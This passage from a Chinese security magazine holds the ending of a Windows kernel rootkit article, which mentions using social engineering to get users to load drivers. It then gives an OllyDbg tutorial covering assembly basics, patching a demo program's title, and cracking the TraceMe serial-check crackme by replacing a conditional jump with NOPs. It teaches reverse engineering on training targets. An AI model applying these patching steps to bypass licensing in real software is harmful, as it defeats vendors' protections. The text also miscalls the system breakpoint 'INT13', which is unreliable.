

图 7

#### 结语

这里要感谢《黑客防线》杂志十余年来提供的纯技术交流平台以及全体黑防高手艰苦卓绝的探索；感谢潘爱民先生的《Windows 内核原理与实现》、Bill Blunden 先生的《Rootkit：系统灰色地带的潜伏者》这两本专著。本文更加侧重于技术原理上的讨论，向广大读者普及信息安全知识，任何人不得使用本文提供的程序危害互联网。

笔者作为非计算机相关专业毕业的人员，凭借对信息安全事业的热爱才孜孜不倦地学习研究。虽然如此，笔者仍清醒地意识到自己与高手们还有很大差距。由于本文涉及的内容艰深庞杂，所以难免有不准确甚至是错误的地方，敬请批评指正。在笔者看来，360 的内核高手们绝非没有认识到在系统调用之下还有很大的空间，他们应该是认为已经严密封锁了驱动入口，很难再加载驱动；但我们抛开从技术层面上绕过驱动防火墙不谈，使用社会工程学知识来骗过用户还不是那么困难的，因为绝大多数用户并不知晓驱动为何物，社工学也正是对准了信息系统中最薄弱的环节——人。所以说，没有绝对的安全，但我们应该努力做到最好。

2015 年 1 月 21 日，微软召开了主题为“The Next Chapter”的 Windows10 发布会，展示了最新的 Windows10 系统的相关功能，并宣布所有 Windows7、Windows8、Windows Phone8.1 用户可以在一年之内免费升级至 Windows10，这让我们看到了微软变革的决心。笔者完全有理由相信 Windows10 会取得巨大的成功，延续当今唯一一个兼具生产力与创意的操作系统平台的辉煌。在未来，希望我们能与 Windows10 一起，不畏艰险，迎难而上，只为一睹山巅之美。

（完）



### 陌路寻踪：OD 调试破解全接触

文/图 贾志明

在安全应用中，分析者经常会使用一些调试工具，以便高效找出软件中存在的错误。而在逆向分析领域，分析者也会利用相关的调试工具来分析软件的行为并验证分析结果。在使用调试工具分析程序的过程中，程序会按调试者的意愿以指令为单位执行。由于操作系统都会提供完善的调试接口，所以利用各类调试工具，可以非常方便灵活地观察和控制目标软件。

#### OD 特点及操作简介

##### 1. OD 特点

调试逆向分为动态分析技术和静态分析技术。动态分析技术指的是使用调试工具加载程序并运行，随着程序运行，调试者可以随时中断目标的指令流程，以便观察相关计算的结果和当前的设备情况。而静态分析技术是相对于动态分析而言的。比如，在实际分析中，很多场合不方便运行目标，例如病毒程序、设备不兼容、软件的单独某一模块等，这个时候就可以将静态分析技术派上用场了！

OD（OllyDbg）和 IDA Pro 这两款工具分别是调试逆向的倚天剑和屠龙刀。虽然两者都兼容动态和静态的调试方式，但就动态调试而言，OD 更为灵活和强大，而静态调试工具的王者理所应当是功能极为强大的 IDA Pro。OllyDbg 界面如图 1 所示。



图 1

在上图中，1 为汇编代码对应的地址窗口，2 为汇编代码对应的十六进制机器码窗口，3 为反汇编窗口，4 为反汇编代码对应的注释信息窗口，5 为寄存器信息窗口，6 为当前执行到的反汇编代码的信息窗口，7～9 为数据所在的内存地址、十六进制、ASCII 码，10～12 为栈地址、存放的数据、对应说明信息。

##### 2. 基础知识介绍

###### 1）关于寄存器

寄存器就好比是 CPU 身上的口袋，方便 CPU 随时从里边拿出需要的东西来使用。寄存器是有限存储容量的高速存储部件，它们可用来暂存指令、数据和地址。通常会涉及到以下寄存器：EAX（扩展累加寄存器）、EBX（扩展基址寄存器）、ECX（扩展计数寄存器）、EDX（扩展数据寄存器）、ESI（扩展来源寄存器）、EDI（扩展目标寄存器）、EBP（扩展基址指针寄存器）、ESP（扩展堆栈指针寄存器）、EIP（扩展的指令指针寄存器）。

这些寄存器的大小是 32 位（4 个字节），它们可以容纳从 0-FFFFFFFF（无符号数）的数据，除了以下三个寄存器，其他都可以随意使用：

- EBP：主要是用于栈和栈帧。
- ESP：指向当前进程的栈空间地址。
- EIP：总是指向下一条要被执行的指令。

###### 2）关于栈

栈是在内存中的一部分，它有两个特殊的性质。第一是 LIFO（Last In First Out），即先进后出；第二是地址反向增长（栈底为大地址，栈顶为小地址）。如图 2 所示。



图 2

###### 3）关于系统 API

Windows 应用程序运行在 Ring3 级别（包括 OllyDbg），如图 3 所示。



图 3

但有时候需要 Ring0 级别才能进行操作，那咋整？我们可以通过系统为我们搭建的桥梁：API 函数，也称之为系统提供给我们的接口。因为系统只信任自己提供的函数，所以我们要通过 API 才能实现对内核的操作。你可以这么想，假如我送给你一辆法拉利跑车，嗯，你没听错，是假如，不是真的！那你要怎么来驾驶它？没错，要通过踩油门来加速，要通过打方向盘来转弯。而油门、方向盘就是所谓的接口，对于法拉利来说，它们就是 API 函数。

###### 4）关于 CALL 指令

Call 有以下几种方式：

- 方式一：call 404000h；直接跳到函数或过程的地址
- 方式二：call eax；函数或过程地址存放在 eax
- 方式三：call dword ptr [eax]
- 方式四：call dword ptr [eax+5]
- 方式五：call dword ptr [<&API>]；执行一个系统 API



#### 5）关于 mov 指令

```asm
mov 指令格式：mov dest, src
```

这是一个很容易理解的指令，mov 指令将 src 的内容拷贝到 dest，mov 指令总共有以下几种扩展：

- 第 1 种：movs/movsb/movsw/movsd edi，esi：这些变体按串/字节/字/双字为单位将 esi 寄存器指向的数据复制到 edi 寄存器指向的空间。
- 第 2 种：movsx 符号位扩展，byte->word，word->dword（扩展后高位全用符号位填充），然后实现 mov。
- 第 3 种：movzx 零扩展，byte->word，word->dword（扩展后高位全用 0 填充），然后实现 mov。

#### 6）关于 cmp 指令

```asm
cmp 指令格式：cmp dest, src
```

cmp 指令比较 dest 和 src 两个操作数，并通过比较结果设置 C/O/Z 标志位。  
cmp 指令大概有以下几种格式：

- 第 1 种：cmp eax, ebx；如果相等，Z 标志位置 1，否则 0。
- 第 2 种：cmp eax, [404000]；将 eax 和 404000 地址处的 dword 型数据相比较并同上置位。
- 第 3 种：cmp [404000], eax；同上。

###### 7）标志位

这个概念在破解中起到的作用是至关重要的。事实上所有的标志位归并于一个 32 位的标志位寄存器，也就是说有 32 个不同的标志位。每个标志位有两个属性：置 1 或置 0，就相当于我们平时说的 OK 或不 OK。在逆向中，你真正需要关心的标志位只有三个，也就是 cmp 指令能够修改的那三个：Z/O/C。

- 第一：Z 标志位（0 标志），这个标志位是最常用的，运算结果为 0 时候，Z 标志位置 1，否则置 0。
- 第二：O 标志位（溢出标志），在运行过程中，如操作数超出了机器能表示的范围则称为溢出，此时 OF 位置 1，否则置 0。
- 第三：C 标志位（进位标志），记录运算时从最高有效位产生的进位值。例如执行加法指令时，最高有效位有进位时置 1，否则置 0。

#### 8）关于 test 指令

test 指令格式：test dest, src。  
这个指令和 and 指令一样，对两个操作数进行按位的“与”运算，唯一不同之处是不将“与”的结果保存到 dest。即本指令对两个操作数的内容均不进行修改，仅是在逻辑与操作后，对标志位重新置位。

###### 9）关于条件跳转指令

条件跳转指令，就是根据各种不同标志位的条件判断是否成立，条件成立则跳转。

#### 10）patch

patch 也就是我们平时所说的补丁。所谓给程序打补丁就是我们对程序破解所进行的修改。OllyDbg 的 “/” 可以查看所有打过的补丁。

###### 11）PE 文件头

为什么需要了解 PE 结构？大家想象一下，某天在班上，我突然想知道小明同学今天穿什么颜色的裤子，要怎么办呢？点名让小明同学站起来？不行，因为老师在上课呢。那我就只好掏出班级里的座位名单，然后找到小明的名字，看是在第几行第几列就找到了，然后再看他的裤子是什么颜色，对吧？其实如果把 PE 结构比作我们刚才提到的班级，那么座位名单就是 PE 文件头了。

PE（Portable Executable）可执行文件结构是一种规范，发明这个主要用来指导系统如何执行你所设计的程序。编译器已经为你将代码按照 PE 结构的形式编译链接为可执行文件，这过程只是它默默地完成，所以我们没有察觉。但是我们现在学习的是逆向，所以连一根毛我们都不能放过。

PE 文件结构有一个非常有优势的地方，就是它在硬盘上的存储结构跟载入内存时候的存储结构是一样的。所以，只要你了解如何在 PE 文件结构里边找出某样你想要的东西，那么当这个文件映射到内存后，你也可以很容易地找到它（因为 OD 是动态调试，程序需要先载入内存嘛）。

内存中的一个模块代表一个可执行文件进程所需要的所有代码、数据、资源的集合。

#### 牛刀小试：修改标题和破解验证程序

##### 1. 初试牛刀：修改软件标题

任务要求：通过 OD 将程序的标题 “I love fishc.com” 改为 “Iam JiaYuntian”。如图 4 所示。



图 4

具体操作步骤如下：

**第 1 步：打开 OD。** 按 F3 载入程序 hello.exe。粗略浏览汇编代码，发现是一些乱七八糟的东西。Ctrl+F2 重新载入程序回到入口点 OEP。一直按 F8 单步步过，注意观察窗口各处信息的变化，一直到出现对话框。此时停在下图的这个 call 上。


**第 2 步：** 找到标志行，按 F2 设下断点（或者双击该行）。Ctrl+F2 重新载入，直接按 F9 运行到断点处，按 F7 单步步入这个 call 里。如图 5 所示。



图 5

**第 3 步：** 查找修改内容。进入到这里后，继续按 F8 单步往下执行。在“0040102C”处就找到了我们要修改的地方。在左下方的数据窗口里按 Ctrl+G，键入地址 00422030，确认：



**第 4 步：** 修改内容。在第一行的地方按空格，修改标题内容。此处应注意，16 进制数字末尾处应加上 00（因为字符串是以 0 结尾的，C 语言编程里有学到）。如图 6 所示。



图 6

**第 5 步：** 修改并执行程序。点击确定，修改完成。按 F9 继续执行程序。修改到此成功，如图 7 所示。



图 7

##### 2. 调试案例：破解序列号验证程序

在 Windows 中，只要 API 函数被使用，想对寻找蛛丝马迹的人隐藏一些东西是比较困难的。因此，分析一个程序时，用什么 API 函数作为切入点就显得比较关键了。先把 TraceMe 这个序列号验证程序流程图给大家展示出来，如图 8 所示。



图 8

- **第 1 步：运行源文件。** 如图 9 所示。



图 9

- **第 2 步：加载目标文件调试。** 设置 OllyDbg 中断在程序的入口点，如图 10 所示。



图 10

加载之前，我们先看看以下名词：

- `System breakpoint`：系统断点，OllyDbg 用 CreateProcessA 加载 `DEBUG_ONLY_THIS_PROCESS` 参数执行，程序运行之后会触发一个 INT13，在系统空间里。
- `Entry point of main module`：主模块的入口点，即文件的入口点。
- `WinMain`：程序的 WinMain() 函数入口点。

##### 第 3 步：找到 API 函数

本例中是 GetDlgItemTextA 或 GetDlgItemTextW，在它下方的调用处及以下会出现之前写入的用户名和密码。通过设置 Z 标志位（本例为 je 处），将 je 修改为 nop，保存、备份，就完成了修改 TraceMe。步骤如图 11 所示。





↓



堆栈地址=0012F8B8, (ASCII "jiajia")  edx=77CA79F4 (ntdll.KiFastSystemCallRet)



```asm
mov ebx, eax
call edi
mov al, byte ptr [esp+4C]
test al, al
je short 00401248
cmp ebx, 5
jl short 00401248
lea edx, dword ptr [esp+4C]
push ebx
lea eax, dword ptr [esp+A0]
push edx
push eax
```



```asm
test al, al
je short 00401248
cmp ebx, 5
jl short 00401248
lea edx, dword ptr [esp+4C]
push ebx
lea eax, dword ptr [esp+A0]
push edx
push eax
call 00401340
```



```asm
call 00401340
mov edi, dword ptr [...]
add esp, 0C
test eax, eax
je short 0040122E
lea ecx, dword ptr [esp+C]
push ecx
push 004054E4
```

